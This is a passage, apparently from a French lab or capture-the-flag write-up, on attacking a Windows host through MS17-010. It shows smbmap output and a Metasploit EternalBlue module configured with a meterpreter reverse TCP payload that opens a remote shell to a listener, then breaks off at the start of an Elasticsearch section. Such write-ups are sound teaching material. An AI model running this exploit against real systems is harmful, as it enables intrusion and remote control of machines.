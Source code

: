On peut utiliser un exploit Metasploit pour exploiter la vulnérablitié.

Exploit windows/smb/ms17_010_psexec est noté Excellent, il est fiable mais nécessite un named pipe.

Or `smbmap` nous indique qu'il n'y a pas de pipe accessible :
```bash
$ smbmap -H 192.168.56.7                                 
[+] IP: 192.168.56.7:445	Name: 192.168.56.7                                      
```

On peut donc se rabattre sur `windows/smb/ms17_010_eternalblue`.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > options 

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         192.168.56.7     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.56.5     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```

Et on peut obtenir un shell avec la commande `exploit`.
À noter que l'exploit n'est pas particulièrement fiable.


## Elastic Search

En se connectant au port 9200, on peut identifier qu'il s'agit d'un elasticsearch en cherchant sur internet avec le
